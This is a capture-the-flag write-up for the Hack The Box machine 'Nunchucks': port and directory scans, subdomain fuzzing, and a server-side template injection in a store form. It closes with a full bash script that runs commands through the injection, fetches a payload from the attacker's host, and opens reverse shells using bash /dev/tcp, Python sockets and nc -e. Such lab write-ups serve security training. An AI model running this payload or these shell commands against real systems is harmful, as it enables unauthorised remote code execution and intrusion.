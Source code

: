 # Nunchucks

## Remote Discovery
> Note: the box IP has been added to the `/etc/hosts` file as `nunchucks.htb`

### Nmap Scan
An `nmap -Sc -Sv nunchucks.htb` yields:
```
...
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
...
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
...
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)\
...
```

So we've got a website. Lets take a look and also use some gobuster to make our lives easier.

### Gobuster Scan
For a dir scan, we'll have to get creative, as an invalid page still gives a 200 status. Luckily the response seems to be the same length every time if
it is incorrect. So we'll run this:
```bash
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -k --exclude-length 45 -u https://nunchucks.htb > gb_common.txt

$ cat gb_common.txt
...
/assets               (Status: 301) [Size: 179] [--> /assets/]
/Login                (Status: 200) [Size: 9172]
/login                (Status: 200) [Size: 9172]
/privacy              (Status: 200) [Size: 19134]
/Privacy              (Status: 200) [Size: 19134]
/signup               (Status: 200) [Size: 9488]
/terms                (Status: 200) [Size: 17753]
```

### Entry Point Search

We can look all over the place for an exploit... but I don't think we'll find one. Even doing some `sqlmap` goodness on the login and signup pages yield nothing... which leads us to more discovery.


### Gobuster Part 2
Now we'll search for subdomains using `ffuf` (Fuzz Faster U Fool):
```bash
$ ffuf -k -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -w /usr/share/wordlists/dirb/small.txt -fl 547 > ffuf_small.txt

$ cat ffuf_small.txt
store                   [Status: 200, Size: 4029, Words: 1053, Lines: 102]
```

Ah! So there is a store to this as well at `https://store.nunchucks.htb`. Now we're getting somewhere.


### Foothold

On the store site, there is a form that submits an email address to `/api/submit`, where (after some poking around) we find that it is vulnerable to an `SSTI` attack (server-side template injection). Now we can hopefully use some template injections to get a basic shell on the machine.

## Basic shell
To simplify the ease of attacking the machine, I've created this simple script to get a basic shell as `david`:
```bash
$ cat shell.sh

#!/bin/bash

# Define some variables
if [[ -z $1 ]]; then
        PORT=5001
else
        PORT=$1
fi
IP=$(ifconfig tun0 | grep 'inet ' | cut -d: -f2 | awk '{print $2}')
TMPFILE=$( mktemp --tmpdir=. )
TMPFILE=$( echo ${TMPFILE:2} )
cat << EOF> $TMPFILE
bash -i >& /dev/tcp/$IP/$PORT 0>&1 && exit 1
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("'$IP'",'$PORT'));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' && exit 1
nc -e /bin/sh $IP $PORT && exit 1
xterm -display $IP:$PORT && exit 1
EOF
C1="curl http://$IP/$TMPFILE > /tmp/shell.sh"
C2="/bin/bash /tmp/shell.sh &"

# Define functions
function send_command {
        COMMAND=$1
        if [[ -z $COMMAND ]]; then
                COMMAND="pwd"
        fi
        #echo "Sending command $COMMAND..." ## Debugging...
        RESPONSE=$(curl -s -k -H "Content-Type: application/json" https://store.nunchucks.htb/api/submit -d '{"email":"{{range.constructor(\"return global.process.mainModule.require('"'child_process'"').execSync('"'$COMMAND'"')\")()}}"}')
        R1=$(echo ${RESPONSE:70})
        LEN=$( expr length "$R1" )
        if [[ $LEN -gt 5 ]]; then
                echo -e $( echo ${R1::-5} )
        fi
}

function cleanup {
        echo "Removing shell files"
        rm $TMPFILE
        send_command "rm /tmp/shell.sh"
}
trap cleanup EXIT # run the cleanup command on script exit

# Run the reverse shell stuff

## Start http server
python3 -m http.server 80 &
pid=$!
sleep 1

## Get the reverse script
send_command "$C1"
sleep 1

## Stop the http server
kill "${pid}"

## Start a nc listener and run the connection
{ sleep 2; res=$( send_command "$C2" ); } &
nc -lvnp $PORT
```
